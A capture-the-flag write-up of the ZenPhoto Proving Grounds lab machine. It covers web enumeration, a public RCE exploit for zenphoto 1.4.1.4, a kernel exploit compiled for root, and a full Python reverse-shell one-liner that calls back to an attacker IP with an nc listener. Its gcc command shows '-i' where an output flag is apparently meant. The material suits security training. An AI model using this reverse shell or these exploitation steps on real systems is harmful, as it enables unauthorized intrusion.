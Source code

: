 ZenPhoto is an intermediate Proving Grounds box, also rated as intermediate by the community. This machine is vulnerable to RCE, and we escalate privileges through a kernel exploit. The exploit itself involves `C` compilation so we'll install `gcc-multilib` to execute it properly.

`nmap` scan:

```
nmap <target machine> -sC -sV -sS -Pn -p-
```

![nmap 1](assets/zenphoto/nmap-1.png)

Port `80` seems to be open, let's check it out:

![port_80 1](assets/zenphoto/port_80-1.png)

Alright, maybe we can try brute forcing directories starting here with `dirsearch`:

![dirsearch-1](assets/zenphoto/dirsearch-1.png)

Let's visit `/test`:

![test-1](assets/zenphoto/test-1.png)

Can we find anything under Page Source?

![page_source-1](assets/zenphoto/page_source-1.png)

![page_source-2](assets/zenphoto/page_source-2.png)

Cool, found a service we can work with: `zenphoto version 1.4.1.4`.

It's possible that there are other paths under `/test` so we can try `dirsearch` again from there:

![dirsearch-2](assets/zenphoto/dirsearch-2.png)

Let's try visiting `/zp-core` first:

![zp_core-1](assets/zenphoto/zp_core-1.png)

We've landed at a login field. Resetting the password, trying default credentials and also `sqli` with `'` were all unsuccessful. Can enumerate `zenphoto version 1.4.1.4` on `Google`:

![google-1](assets/zenphoto/google-1.png)

![exploit_db-1](assets/zenphoto/exploit_db-1.png)

Downloading the exploit gives us this:

![exploit-1](assets/zenphoto/exploit-1.png)

The exploit gives us Remote Code Execution which is great. Following what's highlighted, our input should be:

```
php <exploit file>.php <target ip> /<path>/
```

In this case, we're attacking `/test/`.

![exploit-2](assets/zenphoto/exploit-2.png)

Reverse shells from `bash` and `php` do not work here, but one from `python` does. Here's an example:

```
python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

You can find reverse shell generators from [revshells](https://www.revshells.com/).

The reason for doing this is to create a more stable shell. `zenphoto-shell#` has unpredictable behavior such as arrow keys not functioning normally or simple linux commands like `ls` and `cd` not working at all.

Before executing the `python` one-liner, we set up a `nc` listener on port `443` on our attacker machine:

```
nc -nlvp 443
```

![nc-1](assets/zenphoto/nc-1.png)

Nice, shell got! `cd` into `/home` to retrieve `local.txt`:

![local_txt-1](assets/zenphoto/local_txt-1.png)

Transfer `linpeas` to the target's `/tmp` folder and `chmod +x` the file once received.

![linpeas-1](assets/zenphoto/linpeas-1.png)

Nothing really interesting found besides the version of the operating system. We can try `suggester` which can point us in the right direction. It can be found [here](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh) or can be downloaded like this:

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O suggester.sh
```

![github-1](assets/zenphoto/github-1.png)

After using `chmod +x` on `suggester.sh`, we can run it:

![suggester-1](assets/zenphoto/suggester-1.png)

Let's download `rds` using the `Download URL` provided:

![wget-1](assets/zenphoto/wget-1.png)

The exploit is a `C` file which we're having trouble compiling. We can try other avenues and come back to this if needed. Let's Google the full operating system version of the target machine:

![google-2](assets/zenphoto/google-2.png)

![exploit_db-2](assets/zenphoto/exploit_db-2.png)

Once downloaded, we need to compile the file on our attacker machine. We may need to install the cross-architecture `C` header files with the following command:

```
sudo apt-get install gcc-multilib -y
```

It's recommended that we compile on the target system. `wget` the exploit to the target in `/tmp`, then we compile like this:

```
gcc 15285.c -i 15285 -m32
```

The `-m32` is important as it allows us to compile the file into a compatible format for 32 bit systems like the target.

We can check the architecture with:

```
uname -m
```

![uname-1](assets/zenphoto/uname-1.png)

All that's left is to `chmod +x` the file and then execute it:

![root-1](assets/zenphoto/root-1.png)

Rooted! :partying_face:
